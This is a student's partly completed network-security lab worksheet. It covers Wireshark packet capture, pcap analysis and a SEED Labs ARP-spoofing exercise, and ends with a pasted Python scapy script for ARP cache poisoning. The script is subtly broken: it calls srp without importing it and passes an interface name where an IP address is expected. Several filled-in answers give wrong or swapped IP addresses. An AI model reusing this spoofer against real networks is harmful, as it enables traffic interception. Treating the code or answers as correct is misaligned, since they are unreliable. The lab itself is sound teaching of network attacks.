Lab 1

Task 1. Capturing packets on your own

Overview: Run packet capture on your own and identify the activities on the network.

Steps:
Download and install Wireshark on your computer.
Come up with a random integer. Call it X.
Start capturing.
Open your browser and visit [X].neverssl.com. For example, my random number is 4567, then I would visit 4567.neverssl.com. Make sure that you have never visited [X].neverssl.com before.
Stop the packet capture.

Question 1.1: 
What are the IP addresses (“A records”) associated with “[X].neverssl.com”? 

Source Address: 192.168.1.157.

Destination Address: 192.168.1.1.

Explain how you arrive at this answer. 


Include a relevant Wireshark screenshot. In the screenshot, make sure to show the “Answers” section of the corresponding DNS request. 

[Your response goes here.]

Question 1.2: 
Which IP address of [X].neverssl.com did your browser end up communicating with? 
Explain your response. 
Include a relevant Wireshark screenshot. 



[Your response goes here.]

Question 1.3:  
How is the IP address in Question 1.2 related to the IP addresses in Question 1.1? 
Why?



[Your response goes here.]

Question 1.4: 
How many HTTP requests did your browser send in its communication with [X].neverssl.com? 
What are these requests? 
Include a relevant Wireshark screenshot. 

3 







[Your response goes here.]

Question 1.5: 
Can your Internet service provider see these HTTP requests? 

yes, it can
I cannont find any TLS & SSL signal
Why or why not?

[Your response goes here.]

Task 2. Parsing existing pcap files

Overview: Given some existing pcap file, identify activities on the network.

Steps:
Download this pcap file on your computer. 
Open the pcap file in Wireshark. If Wireshark reports an error, try this file instead. The two files are equivalent.
Examine all the packets in the file.

Question 2.0: 
How many packets are captured in the pcap file? 



[Your response goes here.]

Question 2.1: As you can tell from the pcap, a host is trying to visit http://345678.neverssl.com. Let’s call this host Bob. 
What is Bob’s MAC address? 

MAC: Source: Parallel_42:60:f8 (00:1c:42:42:60:f8)

What is Bob’s IP address? 

IP: Source Address: 13.35.78.186

How do you know? 
Include a relevant Wireshark screenshot.



[Your response goes here.]

Question 2.2: Let’s now look at the server that hosts neverssl.com. 
What is its IP address? 

IP: Source Address: 192.168.88.5

What is the MAC address of this server? 

MAC: Source: Parallel_18:1c:4e (00:1c:42:18:1c:4e)

How do you know? 
Include a relevant Wireshark screenshot.



[Your response goes here.]

Question 2.3: 
What other hosts are on the same local network as Bob? 
What are their IP addresses and MAC addresses? 
How do you know? 
Include relevant Wireshark screenshots.

[Your response goes here.]

Question 2.4: The pcap shows that Bob is trying to visit http://345678.neverssl.com. 
What else is going on in this network? 
Include relevant Wireshark screenshots.

[Your response goes here.]

Task 3. Setting up SEED labs 

Overview: Set up the SEED Lab environment

Steps: Follow either Option A or Option B, but not both Options.
Option A: Creating SEED labs on DigitalOcean. 
Follow this guide. I strongly recommend using DigitalOcean as the cloud provider as the cost is predictable (i.e., $10/month). Follow Step 1, Step 2, and Step 3B of the guide; ignore Step 3A. 
Option B: Creating SEED labs on VirtualBox.
Follow this guide only if your personal computer runs Linux, Windows 10, or the Intel macOS. If you run the latest macOS on the M1 chip, you have to choose Option A or use UTM for virtualization.

My recommendation is to go for Option A. It is the easier way to set up the environment, and you’ll be able to get more help from me or the Course Assistant as we are both familiar with Option A. The total cost will not exceed $30 in total for this semester if you use DigitalOcean. Although Option B is cheaper, you need to make sure that the host machine (which runs VirtualBox or UTM) should have good performance.

If you’re a new GitHub user, you may be qualified for free $100 DigitalOcean credits. See this link.

Question 0.1: 
Include a screenshot of your terminal when you run the following command:
su seed



[Your response goes here.]

Task 4. Prepare the network environment.
Overview: Set up the network environment for Hosts A, B, and M.

Steps (or watch Danny’s in-class demonstration):
Switch to the “seed” user: su seed
Go to https://seedsecuritylabs.org/Labs_20.04/Networking/ARP_Attack/.
Download the Lab setup file “Labsetup.zip” into the SEED Lab (created in Task 0). 
Read Sections 1 and 2 only of the instructions.

Question 1.1: 
Use dockps to list the IP addresses of Hosts A, B, and M. Paste your screenshot below. Make sure to include your input (i.e., the dockps command) and the output — not just for this question but for all questions in this lab.



[Your response goes here.]

Question 1.2:
Use docksh to access Host A’s shell. Ping Host B from A’s shell. Do not kill the ping process yet.
Open a new window. Access Host B’s shell. Run tcpdump for about five seconds. Paste the screenshot below.
Go back to A’s shell where A is pinging B. Kill the ping after about 5 seconds. Show Host A’s ARP table with arp -n. Paste the screenshot below.







[Your response goes here.]

Question 1.3:
Use docksh to access Host M’s shell. Do not ping any hosts from M. Show M’s ARP table. Paste the screenshot below.
Compare M’s ARP table with A’s ARP table (Question 1.2). Explain the similarities and/or differences.



[Your response goes here.]
Task 5. Intercept A’s packets from M.
Overview: Let M be the adversary who intercepts all packets from A to M.

Steps (or watch Danny’s in-class demonstration):
Go to Host B’s shell. Start a web server: cd /; python3 -m http.server
Go to Host A’s shell. Visit B’s web server: curl http://10.9.0.6:8000
Go to Host M’s shell. Intercept the communication between A and B with the arpspoof command. 
Use tcpdump -A to view the packet payload as observed by M.
Repeat Steps 1 and 2.
Observe the output of the tcpdump process.





Question 2.1:
Include a screenshot of Host B’s HTTP response (i.e., payload), along with the corresponding packet headers from M’s perspective.
Why do you see duplicated packet contents in Step 6?



[Your response goes here.]
Task 6. Implement ARP spoofing in Python

Overview: Instead of using Linux’s  arpspoof tool, you should implement it in Python using the “scapy” package.

Steps:
(Google it.)
(Make sure to save the code somewhere on your computer, but not in SEED Labs. Once you shut down a container, your files are gone forever.)

Question 3.1:
Paste your code below.
```
from scapy.all import ARP, Ether, sendp
import time

def spoof_arp(target_ip, spoof_ip, iface="eth0"):
    # Get the MAC address of the target IP
    target_mac = get_mac(target_ip)

    # Create ARP response to masquerade the spoof_ip with our MAC address
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, op="is-at")
    
    # Create the Ethernet frame
    ether_frame = Ether(dst=target_mac, src=get_mac(iface))
    
    # Combine the Ethernet frame and ARP response
    packet = ether_frame/arp_response
    
    return sendp(packet, iface=iface)

def get_mac(ip):
    """
    Returns the MAC address of the given IP.
    """
    # Create an ARP request packet to get the MAC of the IP
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    packet = broadcast/arp_request

    # Send the packet and capture the response
    response = srp(packet, timeout=2, verbose=0)[0]
    return response[0][1].hwsrc

if __name__ == "__main__":
    target_ip = "192.168.1.2"    # Replace with your target IP
    spoof_ip = "192.168.1.1"    # Typically the gateway/router IP
    
    try:
        while True:
            # Trick target_ip into thinking we are spoof_ip
            spoof_arp(target_ip, spoof_ip)
            
            # Optionally: Trick spoof_ip into thinking we are target_ip
            # spoof_arp(spoof_ip, target_ip)
            
            time.sleep(2)
    except KeyboardInterrupt:
        print("\nARP spoofing stopped.")

```
[Your response goes here.]

Question 3.2:
Repeat Task 2, replacing Step 2’s arpspoof command with your Python code above. Include a screenshot of Host B’s HTTP response (i.e., payload), along with the corresponding packet headers from M’s perspective.

[Your response goes here.]
